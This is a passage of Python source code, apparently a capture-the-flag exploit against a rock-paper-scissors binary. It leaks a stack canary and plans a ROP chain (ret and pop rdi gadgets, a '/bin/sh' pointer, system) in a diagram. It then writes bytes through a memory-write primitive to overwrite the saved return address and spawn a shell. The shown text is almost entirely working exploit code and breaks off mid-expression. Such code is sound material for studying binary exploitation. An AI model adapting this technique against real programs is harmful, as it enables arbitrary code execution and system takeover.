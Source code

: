 ```
        self.consume_all()

        # Win again to see message and grab canary
        res = self.full_round().decode()
        self.CANARY = int(res.split('\n')[-4], base=16)
        print("\n[+] Found canary = 0x{:08x}\n".format(self.CANARY))

    def overwrite_return_addr(self, align=False):
        # Overview of memory :
        #  _______________________
        # |        @system        |
        #  -----------------------
        # |      @'/bin/sh'       |
        #  -----------------------
        # | @gadget pop rdi ; ret |
        #  -----------------------
        # |       @gadget ret     | <--- Former saved IP (alignment issues, only if align=True)
        #  -----------------------
        # |          [junk]       | <--- Former saved BP
        #  -----------------------
        # |      stack canary     |
        #  -----------------------  ==> RBP-0x8
        # |          [junk]       |
        #  -----------------------  ==> RBP-0x10
        # |          [junk]       |
        #  -----------------------  ==> RBP-0x18
        # |          [junk]       |
        #  -----------------------  ==> RBP-0x20
        # |          [junk]       |
        #  -----------------------  ==> RBP-0x28
        # |       '/bin/sh\x00'   |
        #  -----------------------  ==> RBP-0x30
        # Total : 8 * 10 = 80 bytes (10 qwords)

        # First write only non-null bytes to set arg for system,
        # overwrite return address, followed by stack canary
        for i in range(10):
            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                              + 8*i,
                              b'aaaaaaaa')
            print("*** FILLED at padding {} ***".format(i))
            self.full_round()

        # For the following addresses : these addresses fit on 6 bytes.
        # The 7th is null and is well copied to the stack
        # But the 8th one is omitted by strcpy (because strcpy stops before)
        # Se we need to write a null byte at the of the address beforehand

        # Write last null byte of @system
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*9+7 + (8 if align else 0),
                          b'\x00')
        print("*** WROTE last null byte of @system ***")
        self.full_round()

        # Write @system
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*9 + (8 if align else 0),
                          bytes.fromhex("{:08x}".format(
                              self.LIBC_BASE_ADDR
```